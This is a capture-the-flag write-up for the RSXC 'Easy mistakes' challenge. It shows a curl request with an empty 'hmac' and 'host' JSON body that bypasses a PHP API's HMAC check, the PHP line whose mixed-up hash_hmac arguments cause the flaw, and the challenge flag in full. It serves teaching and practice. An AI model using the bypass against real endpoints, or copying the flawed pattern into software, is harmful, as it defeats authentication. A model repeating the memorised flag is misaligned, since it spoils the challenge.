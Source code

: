 # 20 - Easy mistakes

> When programming, it is easy to make simple mistakes, and some of them can have dire consequences.
> 
> http://rsxc.no:20020

---

When looking at the website we can see some `PHP` code. Apparently this code belongs to `/api.php`.

![](00.png "")

Let's do "view source" to see the code part formatted.

![](01.png "")

That's better. So the script reads in the raw request body and tries to decode it as `json`. Then it looks for the `hmac` and `host` properties. If they're missing the script returns `400 Bad Request`. Let's verify:

```bash
$ curl -v http://rsxc.no:20020/api.php
*   Trying 134.209.137.128:20020...
* Connected to rsxc.no (134.209.137.128) port 20020 (#0)
> GET /api.php HTTP/1.1
> Host: rsxc.no:20020
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 400 Bad Request
< Date: Fri, 24 Dec 2021 11:45:17 GMT
< Server: Apache/2.4.51 (Debian)
< X-Powered-By: PHP/7.4.26
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
* Closing connection 0
```

Seems to be correct. Now let's give the script a `json`-payload with the `hmac` and `host` properties:

```bash
$ curl -v http://rsxc.no:20020/api.php -d '{ "hmac": "", "host": "" }'
*   Trying 134.209.137.128:20020...
* Connected to rsxc.no (134.209.137.128) port 20020 (#0)
> POST /api.php HTTP/1.1
> Host: rsxc.no:20020
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 26
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 26 out of 26 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 20 Dec 2021 14:51:13 GMT
< Server: Apache/2.4.51 (Debian)
< X-Powered-By: PHP/7.4.26
< Content-Length: 53
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host rsxc.no left intact
RSXC{You_have_to_have_the_right_order_for_arguments!}
```

I'll be honest, I didn't expect to see the flag already! I was expecting to receive a `403 Forbidden` and having to look closer into the implementation to figure out how to bypass the `if ($hmac != $data['hmac'])` check.

Let's look a bit closer at this anyway to try and figure out what happened. The flag itself contains a clue. Looks like we might have some issue with the order of the arguments given to the `hash_hmac` call.

This is the expected arguments, taken from the docs here: https://www.php.net/manual/en/function.hash-hmac.php.

```php
hash_hmac(
    string $algo,
    string $data,
    string $key,
    bool $binary = false
): string
```

When we compare the arguments order in the docs with the ones in our code we can clearly see that they're mixed up.

```php
$hmac = hash_hmac($data["host"], $secret, "sha256");
```

Now I created a test script:

```php
<?php
$data = json_decode('{ "hmac": "", "host": "" }');
$hmac = hash_hmac($data["host"], $secret, "sha256");
var_dump($data);
var_dump($hmac);
```

```
$ php test.php

PHP Fatal error:  Uncaught Error: Cannot use object of type stdClass as array in test.php:3
```

However I get an error on line 3. This error completely halts the script execution and shouldn't let us bypass the `if ($hmac != $data['hmac'])` check. I guess there is some PHP version and/or configuration differences or the `api.php` is actually different on the server.

That's all I have time for today, but at least we got the flag!


## Solution

The flag is: `RSXC{You_have_to_have_the_right_order_for_arguments!}`
